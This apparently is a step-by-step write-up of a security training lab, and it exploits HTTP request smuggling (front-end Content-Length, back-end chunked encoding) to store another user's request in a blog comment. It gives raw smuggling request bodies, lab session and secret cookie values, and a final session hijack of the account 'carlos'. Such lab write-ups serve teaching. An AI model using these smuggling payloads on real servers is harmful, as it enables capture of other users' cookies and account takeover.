# Exploiting HTTP request smuggling to capture other users' requests

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

step 1

```
Transfer-Encoding: chunked

userid=test
```



step 2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```



step 3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```



step 4

```
Content-Length: 135
Transfer-Encoding: chunked

b
userid=test
0


POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

userid=test

```



step 5

```
Content-Length: 134
Transfer-Encoding: chunked

b
userid=test
0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```



step 6

```
Content-Length: 118
Transfer-Encoding: chunked

0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test

```



step 7

post comment and intercept

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```



step 8



step 9

post comment with different comment



step 10

final payload testing

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

change comment section like this

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

```
Content-Length: 254
Transfer-Encoding: chunked

0

post /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Cookie: session=oRaLAPeBQwjMu7hH7CY3ApQxu34w7O4t

csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```



step 11

increase content-Length with `900` to get session id

```
cookie: victim-fingerprint=4qXhX3JGIaZ1nPA7DfDUN3o3x3j0QUFk;
secret=biu3gp5YN1RAKIZOStdiVv3xysxFQ0fB;
session=s47pz7I1zqG9g5mnsLTjYxHstu2CUtpq
```



step 12

login carlos account with any random password
and intercept and replace session id with session id from step 11




